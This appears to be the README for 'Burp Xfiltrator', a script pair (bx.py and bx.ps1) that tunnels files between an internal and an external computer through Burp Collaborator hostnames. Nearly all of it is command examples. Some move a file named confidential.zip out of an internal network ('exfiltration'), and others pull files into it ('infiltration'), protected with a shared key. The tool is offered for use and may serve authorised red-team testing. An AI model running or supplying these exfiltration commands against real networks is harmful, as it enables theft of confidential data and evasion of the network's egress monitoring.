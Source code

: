 # Burp Xfiltrator

## Usage

1. Open Burp Suite Professional.
2. Open Burp Collaborator Client tool.
3. Get two hostnames and two biids:
- &lt;BURPCOLLABORATOR-HOSTNAME-1&gt; and &lt;BIID-1&gt; for external to internal communication.
- &lt;BURPCOLLABORATOR-HOSTNAME-2&gt; and &lt;BIID-2&gt; for internal to external communication.

### For exfiltration

- Example 1:
```
(external computer) sh > python3 bx.py download <BURPCOLLABORATOR-HOSTNAME-1> <BIID-2> 1234qwer confidential.zip

(internal computer) PS > .\bx.ps1 upload <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1> confidential.zip
Enter Key: 1234qwer
```
- Example 2:
```
(external computer) sh > python3 bx.py download <BURPCOLLABORATOR-HOSTNAME-1> <BIID-2> 1234qwer confidential.zip

(internal computer) sh > python3 bx.py upload <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1> 1234qwer confidential.zip
```

### For infiltration

- Example 1:
```
(internal computer) PS > .\bx.ps1 download <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1> confidential.zip
Enter Key: 1234qwer

(external computer) sh > python3 bx.py upload <BURPCOLLABORATOR-HOSTNAME-1> <BIID-2> 1234qwer confidential.zip
```
- Example 2:
```
(internal computer) PS > .\bx.ps1 download <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1> confidential.zip
Enter Key: 1234qwer

(external computer) PS > .\bx.ps1 upload <BURPCOLLABORATOR-HOSTNAME-1> <BIID-2> confidential.zip
Enter Key: 1234qwer
```
